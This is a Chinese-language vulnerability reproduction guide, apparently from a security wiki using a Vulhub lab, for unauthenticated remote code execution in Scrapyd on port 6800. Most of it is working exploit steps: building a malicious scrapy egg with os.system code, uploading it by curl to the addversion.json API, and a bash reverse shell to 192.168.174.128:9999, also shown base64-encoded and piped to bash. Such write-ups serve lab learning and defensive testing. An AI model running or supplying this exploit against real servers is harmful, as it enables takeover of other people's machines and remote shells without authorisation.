



Scrapyd 未授权访问漏洞¶
漏洞描述¶
scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。
参考链接：
环境搭建¶
Vulhub执行如下命令启动scrapyd服务：
docker-compose up -d
环境启动后，访问http://your-ip:6800即可看到Web界面。

漏洞复现¶
参考攻击Scrapyd爬虫，构造一个恶意的scrapy包：
$ pip install scrapy scrapyd-client
$ scrapy startproject evil
$ cd evil
编辑 evil/__init__.py, 加入恶意代码：
import os
os.system('touch awesome_poc')
进行部署：
$ scrapyd-deploy --build-egg=evil.egg
向API接口发送恶意包：
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
成功执行命令touch awesome_poc：

同样的方法实现反弹shell，编辑 evil/__init__.py, 加入恶意代码：
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1
# base64编码（必须要base64编码，直接bash -i >& /dev/tcp/192.168.174.128/9999 0>&1是不行的）
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=
import os
os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= | base64 -d | bash')
进行部署：
$ scrapyd-deploy --build-egg=evil.egg
向API接口发送恶意包：
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
成功反弹shell：
